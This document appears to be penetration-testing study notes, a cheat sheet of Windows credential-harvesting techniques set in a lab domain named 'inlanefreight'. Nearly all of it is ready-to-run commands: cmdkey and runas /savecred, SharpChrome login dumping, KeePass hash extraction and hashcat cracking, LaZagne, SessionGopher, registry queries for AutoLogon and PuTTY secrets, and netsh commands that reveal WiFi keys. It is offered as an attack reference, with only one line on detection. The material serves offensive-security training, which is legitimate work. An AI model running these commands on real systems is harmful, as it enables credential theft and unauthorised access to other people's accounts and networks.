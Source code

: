 ## Cmdkey Saved Credentials

**Listing Saved Credentials
```
cmdkey /list
```
- RDP to computer SQL01 as inlanefreight\bob is stored

**Run Commands as Another User
```
runas /savecred /user:inlanefreight\bob "COMMAND HERE"
```


## Browser Credentials

SharpChrome: https://github.com/GhostPack/SharpDPAPI

**Retreiving Saved Credentials from Chrome
```
.\SharpChrome.exe logins /unprotect
```
Blue team detection: Event ID 4688, 16385, 4662, 4663


## Password Managers

- .kdbx = KeePass
keepass2john: https://gist.githubusercontent.com/HarmJ0y/116fa1b559372804877e604d7d367bbc/raw/c0c6f45ad89310e61ec0363a69913e966fe17633/keepass2john.py
- Run Hashcat or John the Ripper

**Extracting KeePass Hash
```
python2.7 keepass2john.py ILFREIGHT_Help_Desk.kdbx 
```

**Cracking Hash Offline
```
hashcat -m 13400 keepass_hash /opt/useful/seclists/Passwords/Leaked-Databases/rockyou.txt
```

**Email
https://github.com/dafthack/MailSniper


## More Fun with Credentials

**LaZagne
https://github.com/AlessandroZ/LaZagne

```ps
.\lazagne.exe -h
.\lazagne.exe all
```


## Even More Fun with Credentials

**SessionGopher
https://github.com/Arvanaghi/SessionGopher

**Running SessionGopher as Current User
```ps
Import-Module .\SessionGopher.ps1
Invoke-SessionGopher -Target WINLPE-SRV01
```


## Clear-Text Password Storage in the Registry

**Windows AutoLogon
Stores passwords in clear-text in registry

HKEY_LOCAL_MACHINE\SOFTWARE\Microsoft\Windows NT\CurrentVersion\Winlogon

- AdminAutoLogon, 1 = enabled
- DefaultUserName
- DefaultPassword

**Enumerating Autologon with reg.exe
```
reg query "HKEY_LOCAL_MACHINE\SOFTWARE\Microsoft\Windows NT\CurrentVersion\Winlogon"
```

**Putty
Computer\HKEY_CURRENT_USER\SOFTWARE\SimonTatham\PuTTY\Sessions\<SESSION NAME>

**Enumerating Sessions and Finding Credentials
```ps
reg query HKEY_CURRENT_USER\SOFTWARE\SimonTatham\PuTTY\Sessions
reg query HKEY_CURRENT_USER\SOFTWARE\SimonTatham\PuTTY\Sessions\kali%20ssh
```


## Wifi Passwords

**Viewing Saved Wireless Networks
```
netsh wlan show profile
```

**Retrieving Saved Wireless Passwords
```
netsh wlan show profile ilfreight_corp key=clear
```
